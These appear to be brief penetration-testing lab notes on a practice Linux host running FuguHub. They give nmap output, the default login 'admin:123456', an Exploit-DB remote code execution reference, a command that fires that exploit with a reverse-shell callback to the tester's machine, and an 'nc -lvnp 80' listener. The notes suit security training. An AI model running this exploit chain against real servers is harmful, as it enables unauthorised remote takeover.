


____
> [!info]
> 192.168.190.25
> Linux
# Nmap

| PORT | STATE | SERVICE |
| ---- | ---- | ---- |
| 22/tcp | open | ssh |
| 80/tcp | open | http |
| 8082/tcp | open | blackice-alerts |
| 9999/tcp | open | abyss |


```python
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 c9:c3:da:15:28:3b:f1:f8:9a:36:df:4d:36:6b:a7:44 (RSA)
|   256 26:03:2b:f6:da:90:1d:1b:ec:8d:8f:8d:1e:7e:3d:6b (ECDSA)
|_  256 fb:43:b2:b0:19:2f:d3:f6:bc:aa:60:67:ab:c1:af:37 (ED25519)
80/tcp   open  http     nginx 1.18.0
|_http-title: 403 Forbidden
|_http-server-header: nginx/1.18.0
8082/tcp open  http     Barracuda Embedded Web Server
| http-methods: 
|_  Potentially risky methods: PROPFIND PATCH PUT COPY DELETE MOVE MKCOL PROPPATCH LOCK UNLOCK
|_http-title: Home
| http-webdav-scan: 
|   Server Date: Thu, 01 Feb 2024 17:29:21 GMT
|   WebDAV type: Unknown
|   Allowed Methods: OPTIONS, GET, HEAD, PROPFIND, PATCH, POST, PUT, COPY, DELETE, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK
|_  Server Type: BarracudaServer.com (Posix)
|_http-server-header: BarracudaServer.com (Posix)
9999/tcp open  ssl/http Barracuda Embedded Web Server
| http-webdav-scan: 
|   Server Date: Thu, 01 Feb 2024 17:29:21 GMT
|   WebDAV type: Unknown
|   Allowed Methods: OPTIONS, GET, HEAD, PROPFIND, PATCH, POST, PUT, COPY, DELETE, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK
|_  Server Type: BarracudaServer.com (Posix)
| ssl-cert: Subject: commonName=FuguHub/stateOrProvinceName=California/countryName=US
| Subject Alternative Name: DNS:FuguHub, DNS:FuguHub.local, DNS:localhost
| Not valid before: 2019-07-16T19:15:09
|_Not valid after:  2074-04-18T19:15:09
|_http-server-header: BarracudaServer.com (Posix)
|_http-title: Home
| http-methods: 
|_  Potentially risky methods: PROPFIND PATCH PUT COPY DELETE MOVE MKCOL PROPPATCH LOCK UNLOCK
```


# 8082
- admin:123456
- FuguHub

https://www.exploit-db.com/exploits/51550
* FuguHub 8.1 - Remote Code Execution*

>[!warning]
>File server not found.  /fs/cmsdocs/

#### /fs




```bash
python3 51550.py -r 192.168.190.25 -rp 8082 -l 192.168.45.180 -p 80
```



```bash
nc -lvnp 80
```
